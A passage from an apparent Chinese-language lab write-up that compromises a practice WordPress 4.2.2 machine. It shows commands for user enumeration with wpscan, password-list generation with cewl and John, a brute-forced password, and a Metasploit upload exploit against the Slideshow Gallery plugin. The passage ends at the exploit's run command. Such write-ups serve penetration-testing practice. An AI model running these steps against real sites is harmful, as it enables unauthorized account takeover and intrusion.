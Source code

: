     [https://github.com/TheKingOfDuck/fuzzDicts](https://github.com/TheKingOfDuck/fuzzDicts)
    
    字典连接，使用`fuzz/paramDict/dir.txt` 爆破出来的
    
4. 访问新目录
    
    ![image.png](image%2061.png)
    
    发现是`WordPress 4.2.2`
    
5. 直接使用`wpscan`
    
    ```python
    wpscan --url 192.168.75.172/bull/ -e u
    ```
    
    枚举出用户`bully` ，尝试爆破，尝试了常规字典爆破无法枚举出来，看靶机官网底下写着需要额外的字典，所以可能是让我们生成字典
    

## 生成字典

1. 使用`cewl`生成`cms`关键字字典，生成最短密码长度为`6`的密码字典
    
    ```python
    cewl http://192.168.75.172/bull -m 6 > wordlist.txt
    ```
    
2. 然后再使用`John`来生成更多密码组合
    
    ```python
    john --wordlist=wordlist.txt --rules --stdout > words-john.txt
    ```
    
3. 再尝试使用新生成的字典去爆破
    
    ```python
    wpscan --url 192.168.75.172/bull/ -U bully -P words-john.txt
    //
    [SUCCESS] - bully / Bighornedbulls
    ```
    
    枚举出密码`Bighornedbulls`
    

## 拿到shell

1. 我这里的`wpscan`扫不出任何漏洞（可能是我IP配置不正确的问题），查看了`WP`发现有个幻灯片插件存在漏洞，并且在`MSF`下有利用脚本
    
    ```python
    msf6 > use exploit/unix/webapp/wp_slideshowgallery_upload
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > set rhosts 192.168.75.172
    rhosts => 192.168.75.172
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > set targeturi /bull/
    targeturi => /bull/
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > set WP_PASSWORD Bighornedbulls
    WP_PASSWORD => Bighornedbulls
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > set WP_USER bully
    WP_USER => bully
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > run
    